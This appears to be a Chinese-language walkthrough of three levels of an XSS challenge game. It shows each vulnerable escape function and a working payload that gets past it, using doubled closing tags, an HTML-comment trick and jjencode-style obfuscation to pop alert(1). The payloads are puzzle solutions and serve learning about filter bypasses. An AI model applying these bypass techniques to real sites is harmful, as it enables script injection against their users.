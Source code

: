 
<a name="a010"/></a>
### JSON 2 (35)
```javascript
function escape(s) {
  s = JSON.stringify(s).replace(/<\/script/gi, '');

  return '<script>console.log(' + s + ');</script>';
}
```
将 s 中的`" \`进行转义后，将`</script`替换为空串，（g: 全局查找，i：忽略大小写），用双写进行绕过
```html
<</script/script><script>alert(1)//
```
Output
```html
<script>console.log("</script><script>alert(1)//");</script>
```

<a name="a011"/></a>
### Callback 2 (16)
```javascript
function escape(s) {
  // Pass inn "callback#userdata"
  var thing = s.split(/#/); 

  if (!/^[a-zA-Z\[\]']*$/.test(thing[0])) return 'Invalid callback';
  var obj = {'userdata': thing[1] };
  var json = JSON.stringify(obj).replace(/\//g, '\\/');
  return "<script>" + thing[0] + "(" + json +")</script>";
}
```
Callback的加强版本，转义了`/`，无法构造`//`注释了，如果了解 javascript 的注释是有三种的，分别为`// /**/ <!--`，那么利用第三种就可以轻松绕过了
```html
'#';alert(1)<!--
```
Output
```html
<script>'({"userdata":"';alert(1)<!--"})</script>
```

<a name="a012"/></a>
### Skandia 2 (99)
花了我两个小时才用137字符完成了这题。
```javascript
function escape(s) {
  if (/[<>]/.test(s)) return '-';

  return '<script>console.log("' + s.toUpperCase() + '")</script>';
}
```
如果只是单纯的实现弹窗，那没什么困难的，但是不管使用aaencode还是jsfuck，用的字符都太多了，这两种编码形式写出的payload都超过了1000字符。如果图省事，那推荐使用<a href="http://utf-8.jp/public/jjencode.html" target="_blank">jjencode</a>，537个字符搞定
```javascript
");$=~[];$={___:++$,$$$$:(![]+"")[$],__$:++$,$_$_:(![]+"")[$],_$_:++$,$_$$:({}+"")[$],$$_$:($[$]+"")[$],_$$:++$,$$$_:(!""+"")[$],$__:++$,$_$:++$,$$__:({}+"")[$],$$_:++$,$$$:++$,$___:++$,$__$:++$};$.$_=($.$_=$+"")[$.$_$]+($._$=$.$_[$.__$])+($.$$=($.$+"")[$.__$])+((!$)+"")[$._$$]+($.__=$.$_[$.$$_])+($.$=(!""+"")[$.__$])+($._=(!""+"")[$._$_])+$.$_[$.$_$]+$.__+$._$+$.$;$.$$=$.$+(!""+"")[$._$$]+$.__+$._+$.$+$.$$;$.$=($.___)[$.$_][$.$_];$.$($.$($.$$+"\""+$.$_$_+(![]+"")[$._$_]+$.$$$_+"\\"+$.__$+$.$$_+$._$_+$.__+"("+$.__$+")"+"\"")())()//
```
但是看到很多人用100来个字符搞定有点不爽啊（80多个字符搞定的我真不知道怎么做到的），先上我的payload吧，再来分析
```html
");_=!1+URL+!0,[][_[0]+_[10]+_[2]+_[2]][_[8]+_[11]+_[7]+_[3]+_[9]+_[38]+_[39]+_[8]+_[9]+_[11]+_[38]](_[1]+_[2]+_[4]+_[38]+_[9]+'(1)')()//
```